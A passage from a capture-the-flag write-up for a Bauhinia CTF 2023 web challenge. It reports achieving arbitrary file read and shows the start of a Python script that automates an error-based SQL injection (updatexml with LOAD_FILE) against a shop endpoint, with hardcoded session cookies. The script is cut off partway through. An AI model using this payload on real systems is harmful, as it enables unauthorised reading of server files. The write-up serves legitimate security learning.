 ![](https://github.com/siunam321/CTF-Writeups/blob/main/Bauhinia-CTF-2023/images/Pasted%20image%2020230821113723.png)

We can now read arbitrary files!

**To automate the above process, I wrote a not so beautiful Python script:**
```python
#!/usr/bin/env python3
import requests
from bs4 import BeautifulSoup
import re

leakedContent = ''

def exploit(filename, position):
    global leakedContent
    filenameInHex = f'0x{filename.hex()}'
    sqlInjectionPayload = f'''1 and updatexml(null,concat(0x0a,(substring((select LOAD_FILE({filenameInHex})),{position},31))),null)-- -'''
    
    data = {
        'adds': sqlInjectionPayload,
        'f': 'shop',
        'act': 'buy',
        'temp_id': '0'
    }
    cookie = {
        'wog_cookie': '2',
        'wog_bbs_id': '1',
        'wog_cookie_debug': '22b53148583068af1f18ac2c126443f0'
```